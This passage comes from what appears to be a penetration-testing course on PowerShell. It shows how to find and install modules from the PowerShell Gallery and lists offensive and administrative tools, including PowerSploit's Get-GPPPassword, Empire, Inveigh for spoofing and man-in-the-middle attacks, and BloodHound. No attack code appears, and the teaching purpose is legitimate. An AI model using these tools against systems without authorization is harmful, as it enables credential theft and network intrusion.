Function        Get-ApplicationHost                                3.0.0.0    PowerSploit
Function        Get-GPPPassword                                    3.0.0.0    PowerSploit
```

Use the [PowerShel Gallery](https://www.powershellgallery.com/) to learn of many different types of modules. From simple Cmdlets for user attributes to solving complex cloud storage issues.

Say we want to explore the `Find-Module` function from the `PowerShellGet` module to get the [`AdminToolbox`](https://www.powershellgallery.com/packages/AdminToolbox/11.0.8) module for ActiveDirectory Management.

```PowerShell
PS C:\htb> Find-Module -Name AdminToolbox 

Version    Name                                Repository           Description
-------    ----                                ----------           -----------
11.0.8     AdminToolbox                        PSGallery            Master module for a col...

PS C:\htb> find-module -Name AdminToolbox | Install-Module
```

This will download the module from `powershellgallery.com`.

### Tools To Be Aware Of

Below we will quickly list a few PowerShell modules and projects we, as penetration testers and sysadmins, should be aware of. Each of these tools brings a new capability to use within PowerShell. Of course, there are plenty more than just our list; these are just several we find ourselves returning to on every engagement.

- [AdminToolbox](https://www.powershellgallery.com/packages/AdminToolbox/11.0.8): AdminToolbox is a collection of helpful modules that allow system administrators to perform any number of actions dealing with things like Active Directory, Exchange, Network management, file and storage issues, and more.

- [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps): This module is a collection of local and remote administration tools for all things Active Directory. We can manage users, groups, permissions, and much more with it.

- [Empire / Situational Awareness](https://github.com/BC-SECURITY/Empire/tree/master/empire/server/data/module_source/situational_awareness): Is a collection of PowerShell modules and scripts that can provide us with situational awareness on a host and the domain they are apart of. This project is being maintained by BC Security as a part of their Empire Framework.

- [Inveigh](https://github.com/Kevin-Robertson/Inveigh): Inveigh is a tool built to perform network spoofing and Man-in-the-middle attacks.

- [BloodHound / SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/tree/master/Collectors): Bloodhound/Sharphound allows us to visually map out an Active Directory Environment using graphical analysis tools and data collectors written in C# and PowerShell.

## User and Group management